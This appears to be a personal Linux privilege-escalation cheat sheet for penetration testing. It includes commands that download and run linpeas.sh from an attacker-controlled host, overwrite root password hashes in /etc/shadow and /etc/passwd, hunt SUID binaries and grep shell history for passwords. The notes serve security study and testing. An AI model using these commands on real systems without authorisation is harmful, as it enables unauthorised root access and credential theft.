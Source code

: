 ## Intro
Use Linpeas if possible

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Alternative enumeration script: https://github.com/diego-treitos/linux-smart-enumeration/tree/master

On the attacker host:
```
# determine IP address of Kali
ip a

# create python webserver in the directory where linpeass are located
python -m http.server 8080
```
From the victim host
```

#Either of the below
wget http://<KALI IP>:8080/linpeas.sh
curl --output linpeas.sh http://<KALI IP>:8080/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh
```
## Basic
Check if you can become root without password
```
su root
```

Check what priviliges you have (what can be run as sudo without password)

Compare with the list here: https://gtfobins.github.io/#+sudo

Also check which environment variables are inherited (look for the env_keep options)
```
sudo -l
```
## Interesting binaries
If there is any interesting binary (e.g suid or sudo) check ot how to exploit it here:\
https://gtfobins.github.io/

## passwd and shadow

Check if you can read/write /etc/shadow.
- Can Write -> replace root password
- Can Read -> crack the passwords
```
ls -l /etc/shadow

# Generate new password hash to overwrite /etc/shadow
mkpasswd -m sha-512 test
```

Check if you can write to /etc/passwd
- Can write -> add root password directly here
```
ls -l /etc/passwd

# Generate new password hash to overwrite /etc/passwd
openssl passwd test
```

## Crontab
Check what is executed in cron
- edit the .sh files if possible
  - maybe they include wildcards (*) that can be abused? 
- replace executable files\
- check location of the PATH variable, can you do search order hijacking?
```
cat /etc/crontab
```

## SUID file
Executables that are executed in the context of root user.
Find all SUID files and look for the weird ones (e.g. in the user dir)

List of all commonly exploited SUID binaries: https://gtfobins.github.io/#+suid
```
find / -type f -perm -u=s 2>/dev/null
# or
find / -user root -perm -4000 -print 2>/dev/null
```
## Passwords & keys
Maybe password is available in any log or config file?
```
# User history
cat ~/.*history | grep pass

# SSH config files (must be readable)
find / -name ".ssh" 2>/dev/null
```

## Services & listening ports
```
# show the port
ss -tln

#show the name
ss -tl
```

## Find exploits
https://www.exploit-db.com/
- Exploits for SUID executables

https://github.com/jondonas/linux-exploit-suggester-2
- Exploits for the Linux itself

## Additional materials
https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
